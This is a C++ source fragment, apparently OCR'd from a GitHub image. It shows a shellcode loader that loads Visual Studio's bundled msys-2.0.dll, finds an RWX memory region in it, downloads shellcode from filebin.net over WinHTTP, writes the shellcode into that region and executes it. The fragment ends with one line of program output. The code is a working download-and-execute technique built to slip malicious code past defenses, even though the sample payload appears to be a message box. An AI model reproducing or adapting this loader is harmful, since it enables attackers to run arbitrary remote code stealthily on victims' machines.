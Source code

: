 ```
        WinHttpReadData(hRequest, temp, sizeof(temp), &bytesRead);

        if (bytesRead > 0) {
            buffer.insert(buffer.end(), temp, temp + bytesRead);
        }

    } while (bytesRead > 0);

    // close all the handles
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);

    return buffer;
}

int main()
{
    HMODULE hModule = LoadLibraryW(L"C:\\Program Files\\Microsoft Visual Studio\\2022\\Community\\Common7\\IDE\\CommonExtensions\\Microsoft\\TeamFoundation\\Team Explorer\\Git\\usr\\bin\\msys-2.0.dll");

    printf("[+] Module loaded...");

    if (hModule != NULL)
    {
        // calculate offset to loaded DLL RWX memory region
        DWORD_PTR rwxOffset = FindRWXOffset(hModule);
        printf("[+] Offset to RWX memory region: 0x%lx\n", rwxOffset);

        // Download shellcode
        std::vector<BYTE> shellcode = Download(L"www.filebin.net", L"/wj76iwfjn1axc8xy/msgbox.bin");

        // Convert shellcode to a char array
        unsigned char* shellcodeChar = reinterpret_cast<unsigned char*>(shellcode.data());
        SIZE_T shellcodeSize = shellcode.size();

        // Write shellcode to RWX memory region
        memcpy(reinterpret_cast<LPVOID>(rwxOffset), shellcodeChar, shellcodeSize);

        printf("[+] Shellcode Written to RWX Memory Region.\n");

        ((void(*)())rwxOffset)();

        // Pause the program
        printf("[*] Shellcode Executed ");

        // Unload the DLL
        FreeLibrary(hModule);
    }
    else
    {
        printf("Failed to load the DLL.\n");
    }

    return 0;
}
```


[+]: Shellcode located at c7160